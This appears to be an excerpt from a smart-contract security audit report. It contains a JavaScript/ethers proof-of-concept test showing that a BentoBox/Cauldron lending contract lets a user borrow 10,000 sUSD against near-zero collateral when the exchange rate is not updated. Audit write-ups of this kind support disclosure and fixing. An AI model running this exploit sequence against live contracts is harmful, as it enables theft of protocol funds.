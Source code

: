 ```solidity

});


const signer = await ethers.getSigner(WETH_WHALE);

await wethContract.connect(signer).transfer(addr1.address, parseUnits('10', 18));

await wethContract.connect(addr1).approve(BentoBox.address, parseUnits('10000', 18));

cookData = actions.bentoSetApproval(cookData, addr1.address, CMasterContract, true, v, r, s);

// cookData = actions.updateExchangeRate(cookData, true, 0x00, 0x00); // @audit if user does not update exchangeRate, can borrow unlimited sUSD

cookData = actions.bentoDeposit(cookData, wethContract.address, addr1.address, parseUnits('1', 18), parseUnits('1', 18));

// user can provide very little collateral

cookData = actions.addCollateral(cookData, parseUnits('0.000001', 18,), addr1.address, false);

cookData = actions.borrow(

cookData,

parseUnits('10000', 18),

addr1.address
);


cookData = actions.bentoWithdraw(
cookData,
sUSD.address,
addr1.address,
parseUnits('10000', 18),
parseUnits('10000', 18),
0
);

await CClone.connect(addr1).cook(cookData.events, cookData.values, cookData.datas);

// user can borrow all sUSD while insolvent
expect(await sUSD.balanceOf(addr1.address)).to.equal(parseUnits('10000', 18));

});
```

### Tool used
Manual Review
